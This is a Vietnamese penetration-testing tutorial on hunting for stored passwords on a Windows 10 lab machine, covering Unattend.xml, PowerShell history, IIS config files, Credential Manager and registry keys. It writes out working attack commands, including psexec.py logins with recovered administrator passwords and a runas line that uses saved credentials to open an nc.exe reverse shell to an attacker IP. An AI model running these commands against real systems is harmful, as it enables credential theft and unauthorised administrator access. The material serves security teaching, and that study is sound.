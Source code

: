 Password hunting
Đối với những ví dụ này, chúng tôi đã có được chỗ đứng trên mục tiêu Windows 10 với tư cách là người dùng tiêu chuẩn bob .

Password Hunting – Unattend.xml
Manual Enumeration
Có một số vị trí đã biết nơi chúng tôi có thể tìm kiếm tệp Unattend.xml hoặc sysprep.xml trên hệ thống tệp.
Cần đề cập rằng tệp cũng có thể được đặt tên sysprep.xml , mà chúng ta cũng nên tìm nếu không tìm thấy tệp Unattend.xml.
• C:\unattend.xml
• C:\Windows\Panther\Unattend.xml
• C:\Windows\Panther\Unattend\Unattend.xml
• C:\Windows\system32\sysprep.xml
• C:\Windows\system32\sysprep\sysprep.xml
Vị trí phổ biến nhất mà chúng ta sẽ tìm thấy tệp Unattend.xml nằm trong thư mục C:\Windows\Panther
Kiểm tra thư mục C:\Windows\Panther\ trên nạn nhân, chúng tôi tìm thấy file Unattend.xml!
dir C:\Windows\Panther

Automated Enumeration – PowerUp and winPEAS
Sau khi tải xuống công cụ ta có phai đẩy sang máy nạn nhân

Với cả hai công cụ trên nạn nhân, chúng ta có thể bắt đầu bằng cách thực thi PowerUp.ps1 trước winPEASx64.exe vì nó tìm kiếm chiến thắng nhanh chóng và kết quả đầu ra ít hơn FAR.
Chúng ta có thể truy cập lời nhắc PowerShell bằng lệnh powershell -ep bypass rồi tải PowerUp.ps1 vào phiên hiện tại bằng cách sử dụng dấu chấm. Từ đó, chúng ta có thể sử dụng PowerUp để thực hiện tất cả các bước kiểm tra cấu hình sai/lỗ hổng bảo mật cùng một lúc, như sau:
. .\PowerUp.ps1
Invoke-AllChecks

Cuộn xuống, chúng ta sẽ thấy rằng PowerUp kiểm tra tệp Unattend.xml ở những vị trí phổ biến, điều đó có nghĩa là nó có thể tìm thấy tệp này cho chúng ta!

Vì chúng tôi đã chuyển winPEAS trên nạn nhân nên chúng tôi có thể tiến hành quét toàn bộ (không có công tắc) và sau đó rà soát đầu ra để tìm xem có dịch vụ nào dễ bị tổn thương do quyền yếu hay không.
Vì winPEAS có rất nhiều đầu ra nên điều quan trọng là biết thông tin nhất định sẽ nằm ở đâu. Đối với tệp Unattend.xml, tôi muốn kiểm tra phần Các tệp thú vị và sổ đăng ký .

Ở đây chúng ta có thể thấy rằng winPEAS thậm chí còn trích xuất giá trị mật khẩu từ tệp cho chúng ta!

Extracting and Decoding the Administrator Password
Bây giờ chúng ta đã biết cách tìm tệp Unattend.xml nếu nó tồn tại trên hệ thống và tùy thuộc vào phương pháp chúng ta đã sử dụng để tìm nó, chúng ta có thể trích xuất mật khẩu. Nếu chúng tôi sử dụng liệt kê thủ công hoặc PowerUp để tìm tệp này thì chúng tôi sẽ cần trích xuất mật khẩu theo cách thủ công bằng cách đọc qua tệp.
more C:\Windows\Panther\Unattend.xml

Ở đây chúng ta có thể thấy rằng mật khẩu người dùng Quản trị viên được lưu trữ trong tệp và nó không được lưu trữ trong bản rõ. Điều này có nghĩa là thông tin đăng nhập đang được lưu trữ trong base64.
Ngoài ra, nếu chúng tôi đã sử dụng winPEAS, nó sẽ trích xuất mật khẩu được mã hóa base64 này cho chúng tôi.
Bây giờ chúng ta đã có mật khẩu từ file Unattend.xml, chúng ta cần giải mã nó. Để thực hiện việc này, chúng ta có thể sao chép chuỗi base64 và sau đó giải mã nó trên máy tấn công của mình bằng lệnh sau:
echo 'TABvAGMAYQBsAEEAZABtAGkAbgBQAGEAcwBzAHcAbwByAGQAMQAhAA==' | base64 --decode

Tôi đã dễ dàng giải mã được mật khẩu.
Bây giờ chúng ta đã tìm thấy mật khẩu quản trị viên cục bộ, tùy thuộc vào những gì đang mở, chúng ta có thể dễ dàng lấy được quản trị viên hoặc shell HỆ THỐNG trên nạn nhân. Trong ví dụ này, cổng 445 đang mở (thường có trên các máy Windows) nên chúng tôi có thể sử dụng một công cụ tuyệt vời có tên psexec.py để lấy shell Hệ THỐNG cho nạn nhân.
psexec.py Administrator:'LocalAdminPassword1!'@172.16.1.250

Password Hunting – PowerShell History File
Manual Enumeration
Có một vị trí tiêu chuẩn nơi tệp lịch sử PowerShell sẽ được đặt cho mỗi người dùng:
• %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Ở đây chúng ta thấy “%userprofile%” đang được sử dụng cho người dùng hiện tại, đó là bob và do đó sẽ dịch sang vị trí sau:
• C:\Users\bob\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Bây giờ chúng ta đã biết nơi tìm tệp lịch sử PowerShell, chúng ta có thể dễ dàng trích xuất nội dung của tệp bằng lệnh more hoặc type .
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Ngoài ra, từ lời nhắc PowerShell, chúng tôi có thể trích xuất nội dung của tệp lịch sử PowerShell bằng lệnh sau:
cat (Get-PSReadlineOption).HistorySavePath

Ở đây chúng ta có thể thấy rằng người dùng đã sử dụng PowerShell trước đây và một tệp lịch sử đã được tạo. Ngoài ra, chúng ta có thể thấy từ các lệnh do người dùng đưa ra rằng họ đã cố gắng sử dụng lệnh runas không chính xác với thông tin xác thực của Quản trị viên.

Automated Enumeration – winPEAS
Sử dụng các công cụ chúng tôi không nhận được nhiều thông tin về tệp lịch sử PowerShell; ví dụ: chúng tôi chỉ nhận được thông tin về việc tệp có tồn tại hay không khi sử dụng winPEAS.
PowerUp không kiểm tra sự tồn tại của tệp lịch sử PowerShell.
Khi chúng ta chạy winPEAS, ở đầu đầu ra là phần System Information . Nếu cuộn xuống một chút, chúng ta sẽ tìm thấy một phần phụ dành cho Cài đặt PowerShell . Từ đây chúng ta có thể biết người dùng có file lịch sử PowerShell hay không cũng như dung lượng của file đó.

Nếu chúng tôi nhận thấy rằng người dùng có tệp lịch sử PowerShell khi sử dụng winPEAS, chúng tôi sẽ cần trích xuất nội dung của tệp theo cách thủ công như chúng tôi đã làm trước đó, sau đó xem qua đầu ra để tìm bất kỳ phát hiện quan trọng nào.
Vì chúng tôi đã tìm thấy mật khẩu Quản trị viên trong tệp nên chúng tôi có thể tiến hành lấy lại shell đảo ngược với tư cách là Quản trị viên bằng cách sử dụng lại psexec.py hoặc cách khác, tùy thuộc vào dịch vụ nào đang chạy trên nạn nhân.

Password Hunting – IIS Config and Web Files
Đối với máy chủ web IIS, webroot nằm trong thư mục C:\inetpub\wwwroot , đây là nơi chúng ta có thể tìm thấy các tệp thú vị chứa thông tin xác thực trong đó.
Cụ thể, chúng tôi muốn tìm tệp web.config và/hoặc tệp Connectionstrings.config .
Tệp web.config là tệp cấu hình dựa trên XML được sử dụng trong các ứng dụng dựa trên ASP .NET để quản lý các cài đặt khác nhau liên quan đến cấu hình của trang web. Thông thường, chúng tôi sẽ tìm thấy thông tin xác thực trong các tệp này để cấu hình dễ dàng (lười).

Kiểm tra nội dung file web.config trước tiên chúng ta tìm được mật khẩu quản trị viên!

Nếu chúng tôi không tìm thấy thông tin xác thực trong tệp web.config, chúng tôi có thể kiểm tra tệp Connectionstrings.config – nếu nó tồn tại.
Tệp conntectionstrings.config thường được sử dụng với SQL nên bạn có thể chỉ tìm thấy tệp này nếu nhận thấy máy có máy chủ SQL.
Kiểm tra nội dung của tệp Connectionstrings.config, chúng tôi tìm thấy thông tin xác thực và kết nối của người dùng sa cho cơ sở dữ liệu, cho biết rằng chúng tôi có thể sử dụng các thông tin xác thực này để đăng nhập vào cơ sở dữ liệu và hy vọng nhận được HỆ THỐNG hoặc tài khoản dịch vụ.

Ngoài ra, vì chúng tôi đã tìm thấy mật khẩu, chúng tôi nên thêm mật khẩu này vào danh sách mật khẩu và kiểm tra nó với những người dùng khác vì có thể sử dụng lại mật khẩu.
Vì có các tệp thú vị khác thường được gắn với máy chủ web nên có một lệnh PowerShell hữu ích mà chúng ta có thể sử dụng để tìm kiếm đệ quy các tệp thú vị cho mình, như sau:
Get-Childitem -Recurse C:\inetpub | findstr -i "directory config txt aspx ps1 bat xml pass user"

Ở đây chúng ta có thể thấy rằng một tệp thú vị mới đã được tìm thấy trong thư mục C:\inetpub\ftproot có tên user.txt .
Chúng tôi cũng có thể chỉnh sửa lệnh trên để tìm các tệp thú vị trong thư mục C:\xampp hoặc C:\apache, tùy thuộc vào máy chủ web nào đang chạy. Với một máy chủ web khác, chúng tôi sẽ muốn loại bỏ ASPX khỏi lệnh seektr và thay thế nó bằng PHP.
Get-Childitem -Recurse C:\apache | findstr -i "directory config txt php ps1 bat xml pass user"

Get-Childitem -Recurse C:\xampp | findstr -i "directory config txt php ps1 bat xml pass user"

Password Hunting – Stored Credentials (Credential Manager)
Việc tìm kiếm thông tin xác thực được lưu trữ có thể được thực hiện bằng một lệnh đơn giản:
cmdkey /list

Ở đây chúng ta có thể thấy thông tin đăng nhập của tài khoản Quản trị viên cục bộ đã được lưu trữ trong Trình quản lý thông tin xác thực và có thể được sử dụng để thực thi các lệnh.
Cả PowerUp và winPEAS đều không tìm thấy điều này cho bạn. PEAS sẽ cố gắng tìm nó nhưng dường như tôi luôn thất bại nên phương pháp thủ công là tốt nhất.
Khi chúng tôi đã tìm thấy thông tin xác thực được lưu trữ của người dùng, chúng tôi có thể thực thi các lệnh với tư cách là người dùng đó bằng lệnh runas . Điều tuyệt vời nhất là điều này có thể thực hiện được mà không cần biết mật khẩu của họ!
Mặc dù đây không thực sự là "săn mật khẩu", nhưng nó cung cấp cho chúng tôi khả năng chạy các lệnh với tư cách một người dùng khác do mật khẩu của họ được lưu trữ. Vì vậy, nó thực sự giống như việc tìm kiếm thông tin xác thực của người dùng trên hệ thống.
Nếu chúng tôi cố gắng chạy bất kỳ lệnh tùy ý nào chẳng hạn như 'whoami' hoặc lệnh tương tự cho POC, chúng tôi sẽ cần chuyển hướng đầu ra sang một tệp để đọc nó. Điều này là do runas thực thi lệnh từ một cửa sổ riêng biệt.
runas /env /noprofile /savecred /user:DESKTOP-T3I4BBK\administrator "cmd.exe /c whoami > C:\temp\whoami.txt"

Tuyệt vời! POC cho thấy rằng chúng tôi thực sự đang chạy các lệnh với tư cách là tài khoản quản trị viên cục bộ! Bây giờ chúng ta có thể sử dụng runas để có được một shell đảo ngược. Chúng tôi có thể thực hiện việc này theo bất kỳ cách nào, nhưng trong ví dụ này, chúng tôi sẽ sử dụng nc.exe để đẩy shell quản trị trở lại máy tấn công của chúng tôi.
Từ ảnh chụp màn hình ở trên, nc.exe đã có trên máy nạn nhân nên chúng ta có thể sử dụng nó để đẩy shell đảo ngược với tư cách quản trị viên bằng lệnh sau:
runas /env /noprofile /savecred /user:DESKTOP-T3I4BBK\administrator "c:\temp\nc.exe 172.16.1.30 443 -e cmd.exe"

Password Hunting – Registry Keys
Manual Enumeration
Chúng tôi có thể thực hiện tìm kiếm rộng rãi trong sổ đăng ký để tìm tất cả các phiên bản của chuỗi 'mật khẩu' trong tổ hợp đăng ký HKLM và HKLU; tuy nhiên, điều này sẽ tạo ra RẤT NHIỀU kết quả.
reg query HKLM /f password /t REG_SZ /s

reg query HKLU /f password /t REG_SZ /s
Trước tiên kiểm tra trên máy cục bộ, chúng ta có thể thấy nó tạo ra 293 kết quả phù hợp, điều này còn rất nhiều điều phải trải qua!

Thay vào đó, chúng ta có thể tập trung vào việc nhắm mục tiêu các khóa đăng ký đã biết có chứa mật khẩu.
Khi khóa đăng ký như vậy là winlogon , khóa này được gắn với một cài đặt trong Windows có tên là Autologon .
Autologon cho phép bạn dễ dàng cấu hình cơ chế tự động đăng nhập tích hợp của Windows. Thay vì đợi người dùng nhập tên và mật khẩu của họ, Windows sử dụng thông tin xác thực bạn nhập bằng Autologon để tự động đăng nhập vào người dùng được chỉ định.
Khi tính năng tự động đăng nhập được bật, có khả năng mật khẩu đã được lưu ở dạng văn bản rõ ràng. Để tìm hiểu, chúng ta có thể truy vấn khóa đăng ký winlogon bằng lệnh sau:
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

Tuyệt vời! Truy vấn này cho thấy mật khẩu quản trị viên đã được lưu trữ trong sổ đăng ký không an toàn.
Ngoài tính năng Tự động đăng nhập, một số chương trình và phần mềm của bên thứ ba cũng có thể lưu trữ thông tin đăng nhập không an toàn. Dưới đây là danh sách các truy vấn khác mà chúng tôi có thể thực hiện đối với các dịch vụ lưu trữ mật khẩu đã biết:
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

reg query "HKCU\Software\ORL\WinVNC3\Password"

reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

Automated Enumeration – PowerUp and winPEAS
